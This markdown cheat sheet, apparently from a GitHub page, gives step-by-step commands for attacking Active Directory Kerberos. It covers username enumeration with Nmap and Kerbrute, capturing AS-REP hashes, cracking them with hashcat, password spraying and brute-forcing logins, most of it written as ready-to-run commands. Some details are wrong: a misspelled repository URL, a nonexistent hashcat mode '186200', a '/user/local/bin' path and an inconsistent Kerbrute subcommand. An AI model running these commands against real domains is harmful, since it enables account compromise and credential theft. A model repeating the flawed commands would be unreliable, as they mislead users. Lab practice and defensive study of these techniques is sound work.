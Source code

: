 Kerberos username enumeration is useful in Active Directory enviornments where kerberos authentication is used. Valid usernames can often be detected without authentication by interacting with kerberos protocol. This document outlines two powerful methods for kerberos user enumeration using Nmap and Kerbrute.

---

### Krb5-Enum-Users with Nmap

the ``krb5-enum-users`` NSE script performs username enumeration against a Kereros service by analyzing the responses to AS-REQ messages

#### Basic Scan Using Built-in NSE Script

```bash
nmap -v -sT -sV --script=krb5-enum-users.nse -p 88 10.10.10.161
```

#### Scan with Custom Username List

```bash
nmap -v -sT -sV -p 88 --script=krb5-enum-users.nse --script-args krb5.enum-users.realm='htb.local',userdb=/usr/share/seclists/Usernames/top-usernames-shortlist.txt 10.10.10.161
```

---

## Kerbrute

Kerbrute is a powerful and fast kerberos bruteforcer, written in Go. it supports username enumeration, password spraying and credential brute forcing

Github Repository : https://gtihub.com/ropmop/kerbrute

### Installation Steps

#### Clone The Repo

```bash
git clone https://github.com/ropnop/kerbrute.git
```

#### Change Directory into the project 

```bash
cd kerbrute
```

#### Build the Project 

```bash
make all
```

#### Install Kerbrute Globally


```bash
go install
```

#### Verify the installation path

```bash
which kerbrute
```

#### Copy Binary to Global Path

```bash
cp -v /root/go/bin/kerbrute /user/local/bin/
```

#### Display Help Menu


```bash
kerbrute -h
```




### User Enumeration with kerbrute

#### Basic Enumeration

```bash
kerbrute userenum --dc <IP> -d infosecwarrior.local -o kerbrute.log username.txt
```

* **use ``-v`` for verbose output**

#### Save AS-REP Hashes (for crackable Accounts Without PreAuth)

```bash
kerbrute username --dc <IP> -d infosecwarrior.local -o kerbrute.log username.txt --hash-file AS-REP-hash.txt
```


### Cracking AS-REP Hashes with hashcat

#### Identify Kerberos Hash Modes

```bash
hashcat -h | grep kerberos
```

#### crach AS-REP hashes using rockyou wordlist

```bash
hashcat -a 0 -m 186200 AS-REP-hash.txt /opt/rockyou.txt
```

### Password Spraying with kerbrute 

#### Spray with known password

```bash
kerbrute passwordspray --dc <IP> -d infosecwarrior.local -o kerbrute.log username.txt Password123
```

### Password Bruteforce against a specific user

```bash
kerbrute bruteuser --dc <IP> -d infosecwarrior.local -o kerbrute.log passwords.txt Administrator
```

### BruteForce Username and Password Combos

```bash
kerbrute bruteforce --dc <IP> -d infosecwarrior.local -o kerbrute.log /usr/share/seclists/Passwords/Default-Credentials/windows-bwttwedefaultpasslist.txt
```
